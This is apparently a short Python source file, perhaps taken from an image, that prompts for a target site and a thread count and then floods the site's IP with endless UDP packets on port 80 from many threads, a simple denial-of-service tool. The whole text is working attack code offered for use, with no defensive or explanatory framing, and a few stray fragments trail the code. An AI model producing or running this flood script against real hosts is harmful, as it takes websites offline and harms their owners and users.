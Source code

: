 
import time
import socket
import sys
import _thread
site = input("Enter your site url => ")
thread_count = input("Enter your thread => ")
ip = socket.gethostbyname(site)
UDP_PORT = 80
MESSAGE = 'virus32'
print("UDP target IP:", ip)
print("UDP target port:", UDP_PORT)
time.sleep(3)
def ddos(i):
    while 1:
        sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
        sock.sendto(bytes(MESSAGE,"UTF-8"), (ip, UDP_PORT))
        print("Packet Sent")
for i in range(int(thread_count)):
    try:
        _thread.start_new_thread(ddos, ("Thread-" + str(i),))
    except KeyboardInterrupt:
        sys.exit(0)
while 1:
    pass# sms
Not
